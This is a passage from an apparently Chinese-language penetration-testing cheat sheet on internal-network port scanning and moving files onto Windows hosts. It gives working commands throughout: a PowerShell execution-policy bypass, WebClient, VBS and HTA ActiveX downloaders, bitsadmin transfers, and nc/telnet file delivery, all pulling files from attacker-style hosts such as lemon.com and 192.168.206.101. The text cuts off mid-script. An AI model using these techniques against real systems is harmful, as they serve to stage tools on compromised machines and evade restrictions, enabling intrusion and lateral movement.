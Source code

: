 3、端口扫描  
InsightScan  
proxy_socket后，直接  
```
proxychains python scanner.py 192.168.0.0/24 -N
```
http://insight-labs.org/?p=981

###内网文件传输  
####windows下文件传输  
1、powershell文件下载  
powershell突破限制执行：powershell -ExecutionPolicy Bypass -File .\1.ps1
```
$d = New-Object System.Net.WebClient
$d.DownloadFile("http://lemon.com/file.zip","c:/1.zip")
```

2、vbs脚本文件下载
```php
Set xPost=createObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://192.168.206.101/file.zip",0
xPost.Send()
set sGet=createObject("ADODB.Stream")
sGet.Mode=3
sGet.Type=1
sGet.Open()
sGet.Write xPost.ResponseBody
sGet.SaveToFile "c:\file.zip",2
```
下载执行：
```
cscript test.vbs
```

3、bitsadmin  
win03测试没有,win08有
```
bitsadmin /transfer n http://lemon.com/file.zip c:\1.zip
```

4、文件共享  
映射了一个，结果没有权限写
```
net use x: \\127.0.0.1\share /user:centoso.com\userID myPassword
```

5、使用telnet接收数据
```
服务端：nc -lvp 23 < nc.exe
下载端：telnet ip -f c:\nc.exe
```

6、hta  
保存为.hta文件后运行
```html
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.206.101/demo.php.zip",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\demo.zip", 2);
    Stream.Close();
```